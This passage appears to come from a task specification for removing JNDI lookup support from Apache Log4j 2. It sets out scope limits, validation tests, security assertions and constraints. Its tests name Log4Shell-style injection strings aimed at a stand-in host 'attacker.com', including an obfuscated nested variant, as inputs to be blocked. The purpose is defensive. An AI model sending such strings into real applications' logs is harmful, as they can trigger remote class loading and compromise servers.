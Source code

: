 #### Out of Scope
- Changes to log4j-api module
- Modifications to other lookup implementations
- Updates to appenders, layouts, or filters
- Performance optimizations unrelated to security
- Feature enhancements or new functionality
- Changes to build configuration or dependencies
- Modifications to logging behavior for non-JNDI patterns

## 0.5 SECURITY VALIDATION REQUIREMENTS

#### Verification Tests
1. **JNDI Pattern Blocking**: Confirm ${jndi:ldap://attacker.com/a} returns empty/null
2. **LDAP URL Rejection**: Verify no network connections to LDAP servers
3. **RMI URL Rejection**: Ensure ${jndi:rmi://...} patterns fail safely
4. **DNS Lookup Prevention**: Block ${jndi:dns://...} resolution attempts
5. **Nested Pattern Defense**: Test ${${lower:jndi}:ldap://...} variations

#### Security Assertions
- No javax.naming.InitialContext lookups performed
- No remote class loading via JNDI
- No information disclosure through JNDI lookups
- Fail-safe behavior when JNDI patterns encountered

## 0.6 SPECIAL IMPLEMENTATION NOTES

#### Critical Constraints
1. **NO CVE REFERENCES**: Solution must not reference or implement CVE-2021-44228 fixes
2. **MINIMAL CHANGES**: Touch only files necessary for JNDI removal
3. **PRESERVE FUNCTIONALITY**: All non-JNDI features must work identically
4. **FAIL SAFE**: Default behavior must block JNDI without configuration

#### Risk Mitigation
- If legitimate JNDI usage exists, document migration path
- Provide clear error messages when JNDI patterns are blocked
- Log security events when JNDI attempts are detected
- Consider temporary compatibility flag for gradual migration

# 1. INTRODUCTION

## 1.1 EXECUTIVE SUMMARY

### 1.1.1 Project Overview

Apache Log4j 2 is an industrial-grade Java logging framework that serves as a complete rewrite of Log4j 1.x, addressing fundamental architectural problems in both Log4j 1.x and Logback while providing enterprise-ready logging capabilities. Maintained by the Apache Software Foundation since 1999 and distributed under the Apache License 2.0, this open-source framework has become a critical infrastructure component for Java-based applications worldwide.
